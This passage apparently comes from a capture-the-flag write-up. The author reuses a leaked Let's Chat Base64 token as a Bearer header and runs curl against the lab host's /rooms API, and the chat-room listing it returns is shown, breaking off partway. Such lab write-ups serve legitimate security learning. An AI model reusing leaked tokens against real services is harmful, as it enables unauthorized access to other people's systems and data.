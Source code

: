 I didn't really know what to do even if I had Gitea access, so let's exploit the Let's Chat Token

### Let's Chat Token

This was a Base64 token, so let's try to use an `Authorization` HTTP header as the token. Also, at the very bottom of the page, there was a Github Repository present (which I missed the first time).&#x20;

{% embed url="https://github.com/sdelements/lets-chat" %}

This application has an API with documentation here:

{% embed url="https://github.com/sdelements/lets-chat/wiki/API%3A-Authentication" %}

We can access it via `/rooms`:

```
$ curl -s http://10.129.84.253:5000/rooms -H 'Authorization: Bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==' 
[{"id":"61b86b28d984e2451036eb17","slug":"status","name":"Status","description":"Cachet Updates and Maintenance","lastActive":"2021-12-14T10:34:20.749Z","created":"2021-12-14T10:00:08.384Z","owner":"61b86aead984e2451036eb16","private":false,"hasPassword":false,"participants":[]},{"id":"61b8708efe190b466d476bfb","slug":"android_dev","name":"Android Development","description":"Android App Updates, Issues & More","lastActive":"2021-12-14T10:24:21.145Z","created":"2021-12-14T10:23:10.474Z","owner":"61b86aead984e2451036eb16","private":false,"hasPassword":false,"participants":[]},{"id":"61b86b3fd984e2451036eb18","slug":"employees","name":"Employees","description":"New Joinees, Org updates","lastActive":"2021-12-14T10:18:04.710Z","created":"2021-12-14T10:00:31.043Z","owner":"61b86aead984e2451036eb16","private":false,"hasPassword":false,"participants":[]}] 
```

The output can be beautified using `jq`.&#x20;

```
$ curl -s http://10.129.84.253:5000/rooms -H 'Authorization: Bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==' | jq
[
  {
    "id": "61b86b28d984e2451036eb17",
    "slug": "status",
    "name": "Status",
    "description": "Cachet Updates and Maintenance",
    "lastActive": "2021-12-14T10:34:20.749Z",
    "created": "2021-12-14T10:00:08.384Z",
    "owner": "61b86aead984e2451036eb16",
    "private": false,
    "hasPassword": false,
    "participants": []
  },
  {
    "id": "61b8708efe190b466d476bfb",
    "slug": "android_dev",
    "name": "Android Development",
    "description": "Android App Updates, Issues & More",
    "lastActive": "2021-12-14T10:24:21.145Z",
    "created": "2021-12-14T10:23:10.474Z",
    "owner": "61b86aead984e2451036eb16",
    "private": false,
    "hasPassword": false,
    "participants": []
  },
  {
    "id": "61b86b3fd984e2451036eb18",
    "slug": "employees",
    "name": "Employees",
    "description": "New Joinees, Org updates",
    "lastActive": "2021-12-14T10:18:04.710Z",
    "created": "2021-12-14T10:00:31.043Z",
```